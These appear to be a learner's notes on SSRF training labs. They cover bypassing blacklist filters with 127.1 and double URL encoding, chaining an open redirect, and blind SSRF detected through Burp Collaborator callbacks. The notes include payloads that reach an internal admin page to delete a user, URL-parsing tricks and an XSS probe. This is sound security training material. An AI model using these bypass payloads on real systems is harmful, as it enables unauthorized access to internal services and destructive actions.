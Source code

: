 •	Lab 3: SSRF with blacklist-based input filter
o	For POST /product/stock HTTP/1.1
stockApi=http://stok.shop.net:8080/?productId=20&storeId=
o	Check if SSRF with Burp Collaborator
o	stockApi=http://localtest.me or localhost
o	If not working, bcz keywords are blacklisted.
o	try 127.0.1 or 127.1 sometimes it works.
	stockApi=http://127.0.1
	stockApi=http://127.0.1/admin
•	admin keyword also blocked so, double encode it
	stockApi=http://127.0.1/%2561%2564%256d%2569%256e
	stockApi=http://127.1/%2561dmin
	stockApi=http://127.1/%2561dmin/delete?username=carlos

•	Lab 4: SSRF with filter bypass via open redirection vulnerability
o	For POST /product/stock HTTP/1.1
stockApi=/product/stock/check?productId=1
o	stockApi=<Burp Collaborator.net> not working bcz parameter contains path 
o	So we can find the Open Redirect vulnerability (Low level)
	For it find 302 status code. Send to Repeater.
o	GET /product/nextProduct?currentProductId=17&path=/product?productId=18
	path=(it contains location, so we can try Open Redirect)
	path=<attackers.redirect.site.com> it will open redirect.
o	Can also use XSS
	path=javascript:alert(1)
o	For SSRF, SSRF in path also not working. So,
	Copy whole path after GET
	Paste into POST stockApi= and encode it Ctrl + E
o	stockApi=/product/nextProduct%3fcurrentProductId%3d17%26path%3dhttps%3a//< BurpCollaborator.net>
o	stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
o	TIP:
	If target have to Open Redirect to exploit SSRF, then we can add @ or . before BurpCollaborator.net
•	stockApi=@BurpCollaborator.net
	HOW DOES IT WORK?
Frontend: url=/path/file
Backend: https://target.com/path/file
•	URL= @example.com
•	https://target.com@example.com
o	@ leads to example.com it’s a rule in web development
•	URL= . example.com
•	https://target.com.example.com
o	. makes example.com as a sub domain.
•	URL= target.com#example.com
o	Everything after # will not get execute.

•	Lab 5: Blind SSRF with out-of-band detection
o	Visit a product, intercept the request in Burp Suite, and send it to Burp Repeater. 
o	Go to the Repeater tab. Select the Referer header, right-click and select "Insert Collaborator Payload" to replace the original domain with a Burp Collaborator generated domain. Send the request. 
o	Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds, and try again, since the server-side command is executed asynchronously. 
o	You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. 
o	For GET /product?productId=2 HTTP/1.1
	Referer: https://dbe2ub0qv5cnaqmwmvd17pw.oastify.com
	Check HTTP request in Burp Collab

